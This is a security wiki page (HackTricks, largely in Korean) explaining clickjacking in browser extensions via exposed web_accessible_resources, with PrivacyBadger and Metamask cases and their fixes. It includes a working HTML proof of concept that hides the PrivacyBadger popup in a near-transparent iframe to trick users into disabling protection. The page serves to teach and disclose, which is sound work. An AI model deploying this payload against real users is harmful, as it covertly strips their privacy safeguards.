 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

이 페이지는 브라우저 확장에서 ClickJacking 취약점을 악용할 것입니다.\
ClickJacking이 무엇인지 모른다면 다음을 확인하세요:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

확장 프로그램은 **`manifest.json`** 파일을 포함하고 있으며, 이 JSON 파일에는 `web_accessible_resources` 필드가 있습니다. Chrome 문서에서는 다음과 같이 설명합니다: 

> 이러한 리소스는 **`chrome-extension://[PACKAGE ID]/[PATH]`** URL을 통해 웹페이지에서 사용할 수 있으며, 이는 **`extension.getURL method`**로 생성할 수 있습니다. 허용된 리소스는 적절한 CORS 헤더와 함께 제공되므로 XHR과 같은 메커니즘을 통해 사용할 수 있습니다.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

브라우저 확장의 **`web_accessible_resources`**는 단순히 웹을 통해 접근할 수 있는 것이 아니라, 확장의 고유한 권한으로 작동합니다. 이는 다음과 같은 기능을 가질 수 있음을 의미합니다:

* 확장의 상태 변경
* 추가 리소스 로드
* 브라우저와 어느 정도 상호작용

그러나 이 기능은 보안 위험을 초래합니다. **`web_accessible_resources`** 내의 리소스가 중요한 기능을 가지고 있다면, 공격자는 이 리소스를 외부 웹 페이지에 삽입할 수 있습니다. 이 페이지를 방문하는 무심한 사용자는 이 삽입된 리소스를 우연히 활성화할 수 있습니다. 이러한 활성화는 확장 리소스의 권한과 기능에 따라 의도치 않은 결과를 초래할 수 있습니다.

## PrivacyBadger Example

확장 프로그램 PrivacyBadger에서 `skin/` 디렉토리가 다음과 같이 `web_accessible_resources`로 선언된 것과 관련된 취약점이 발견되었습니다 (원본 [블로그 게시물](https://blog.lizzie.io/clickjacking-privacy-badger.html) 확인):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
이 구성은 잠재적인 보안 문제를 초래했습니다. 구체적으로, 브라우저에서 PrivacyBadger 아이콘과 상호작용할 때 렌더링되는 `skin/popup.html` 파일은 `iframe` 내에 삽입될 수 있습니다. 이 삽입은 사용자가 "이 웹사이트에 대해 PrivacyBadger 비활성화"를 무심코 클릭하도록 속이는 데 악용될 수 있습니다. 이러한 행동은 PrivacyBadger 보호를 비활성화하여 사용자의 개인 정보를 위협하고, 사용자가 더 많은 추적을 받을 수 있는 상황에 처하게 할 수 있습니다. 이 취약점의 시각적 시연은 [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm)에서 제공된 ClickJacking 비디오 예제를 통해 확인할 수 있습니다.

이 취약점을 해결하기 위해 간단한 해결책이 구현되었습니다: `/skin/*`을 `web_accessible_resources` 목록에서 제거하는 것입니다. 이 변경은 `skin/` 디렉토리의 콘텐츠가 웹 접근 가능한 리소스를 통해 접근하거나 조작될 수 없도록 보장함으로써 위험을 효과적으로 완화했습니다.

수정은 간단했습니다: **`web_accessible_resources`에서 `/skin/*`을 제거하십시오**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask 예시

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). 이 경우, Metamask는 접근하는 데 사용된 프로토콜이 **`https:`** 또는 **`http:`**인지 확인하여 취약점을 수정했습니다 (예: **`chrome:`** 아님):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Metamask 확장 프로그램에서 수정된 또 다른 ClickJacking**은 사용자가 `“web_accessible_resources”: [“inpage.js”, “phishing.html”]` 때문에 페이지가 피싱으로 의심될 때 **Click to whitelist**할 수 있었다는 것입니다. 해당 페이지는 Clickjacking에 취약했기 때문에, 공격자는 피해자가 이를 인지하지 못한 채로 화이트리스트에 추가하도록 클릭하게 만들기 위해 정상적인 것을 보여줄 수 있었고, 그 후 화이트리스트에 추가된 피싱 페이지로 돌아갈 수 있었습니다.

## Steam Inventory Helper 예시

Check the following page to check how a **XSS** in a browser extension was chained with a **ClickJacking** vulnerability:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
